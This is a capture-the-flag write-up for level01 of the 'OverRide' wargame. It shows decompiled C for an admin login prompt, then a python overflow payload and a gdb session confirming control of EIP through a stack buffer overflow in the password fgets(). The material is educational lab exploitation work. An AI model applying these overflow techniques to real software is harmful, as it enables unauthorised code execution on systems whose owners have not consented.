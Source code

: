 Even if the password is right or wrong the result is still the same.

We dont see any call of system() with /bin/sh so we gotta use an exploit.

Lets see what we can do.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  int v5; // [esp+5Ch] [ebp-Ch]

  memset(v4, 0, sizeof(v4));
  v5 = 0;
  puts("********* ADMIN LOGIN PROMPT *********");
  printf("Enter Username: ");
  fgets(&a_user_name, 256, stdin);
  v5 = verify_user_name();
  if ( v5 )
  {
    puts("nope, incorrect username...\n");
  }
  else
  {
    puts("Enter Password: ");
    fgets(v4, 100, stdin);
    v5 = verify_user_pass(v4);
    puts("nope, incorrect password...\n");
  }
  return 1;
}
```

We will overflow the v4 buffer and see what exploit we can use.

```sh
level01@OverRide:~$ python -c "print 'dat_wil' + '\n' + 'A' * 256" | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

Segmentation fault (core dumped)
level01@OverRide:~$
```

It successfully overflowed, we used the 'dat_wil' uesrname, and a '\n' in order to enter the second call of fgets() which is exploitable.

Lets see if we can control the EIP.

```sh
level01@OverRide:~$ python -c "print 'dat_wil' + '\n' + 'A' * 256" > /tmp/exploit

level01@OverRide:~$ gdb ./level01
(gdb) run < /tmp/exploit
Starting program: /home/users/level01/level01 < /tmp/exploit
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb)
```